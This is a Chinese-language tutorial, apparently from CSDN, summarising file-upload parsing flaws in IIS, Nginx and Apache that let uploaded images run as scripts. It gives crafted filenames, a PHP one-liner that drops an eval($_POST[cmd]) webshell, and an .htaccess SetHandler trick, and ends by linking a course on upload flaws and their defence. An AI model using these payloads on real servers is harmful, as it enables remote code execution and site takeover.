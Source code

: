 ```yaml
---
title: "文件解析漏洞总结"
id: csdn50695896
---
```


## 一、IIS 5.x/6.0解析漏洞

IIS 6.0解析利用方法有两种

1.目录解析

```
/xx.asp/xx.jpg
```

2.文件解析

```
cracer.asp;.jpg
```

第一种，在网站下建立文件夹的名字为 .asp、.asa 的文件夹，其目录内的任何扩展名的文件都被IIS当作asp文件来解析并执行。

例如创建目录 cracer.asp，那么

```
/cracer.asp/1.jpg
```

将被当作asp文件来执行。假设黑阔可以控制上传文件夹路径,就可以不管你上传后你的图片改不改名都能拿shell了。

第二种，在IIS6.0下，分号后面的不被解析，也就是说

```
cracer.asp;.jpg
```

会被服务器看成是cracer.asp

还有IIS6.0 默认的可执行文件除了asp还包含这三种

```
/cracer.asa/cracer.cer/cracer.cdx
```

## 二、IIS 7.0/IIS 7.5/ Nginx <8.03畸形解析漏洞

Nginx解析漏洞这个伟大的漏洞是我国安全组织80sec发现的…

在默认Fast-CGI开启状况下,黑阔上传一个名字为cracer.jpg，内容为

```
<?PHP fputs(fopen(‘shell.php’,’w’),'<?php eval($_POST[cmd])?>’);?>
```

的文件，然后访问cracer.jpg/.php,在这个目录下就会生成一句话木马 shell.php

## 三、Nginx <8.03 空字节代码执行漏洞

影响版:0.5.,0.6., 0.7 <= 0.7.65, 0.8 <= 0.8.37

Nginx在图片中嵌入PHP代码然后通过访问

```
xxx.jpg%00.php
```

来执行其中的代码

## 四、Apache解析漏洞

Apache 是从右到左开始判断解析,如果为不可识别解析,就再往左判断.

比如 `cracer.php.owf.rar` “.owf”和”.rar” 这两种后缀是apache不可识别解析,apache就会把`cracer.php.owf.rar`解析成php.

如何判断是不是合法的后缀就是这个漏洞的利用关键,测试时可以尝试上传一个cracer.php.rara.jpg.png…（把你知道的常见后缀都写上…）去测试是否是合法后缀

## 五、其他

在windows环境下，`xx.jpg[空格]` 或`xx.jpg.` 这两类文件都是不允许存在的，若这样命名，windows会默认除去空格或点,黑客可以通过抓包，在文件名后加一个空格或者点绕过黑名单.若上传成功，空格和点都会被windows自动消除,这样也可以getshell。

如果在Apache中.htaccess可被执行.且可被上传.那可以尝试在.htaccess中写入:

```
<FilesMatch “cracer.jpg”> SetHandler application/x-httpd-php </FilesMatch>
```

然后再上传shell.jpg的木马, 这样shell.jpg就可解析为php文件。

## 相关课程

![](../img/199fcdfe676f8b83a2ccb90e2073c216.png)

[非法文件上传漏洞技术解析及防御](http://www.ichunqiu.com/course/78)